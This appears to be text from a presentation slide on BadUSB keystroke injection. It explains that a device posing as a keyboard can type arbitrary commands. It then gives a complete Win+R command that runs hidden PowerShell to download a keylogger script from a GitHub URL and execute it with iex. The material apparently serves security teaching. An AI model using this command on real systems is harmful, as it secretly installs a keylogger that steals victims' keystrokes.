

# Keystroke Injection
Once recognized as HID Keyboard, can send arbitrary key to the computer
Launch powershell script to download keylogger script online

Win + R, then “powershell -w h iwr 'https://raw.githubusercontent.com/map32/cybersecurity-badusb/main/hey2.ps1' | iex”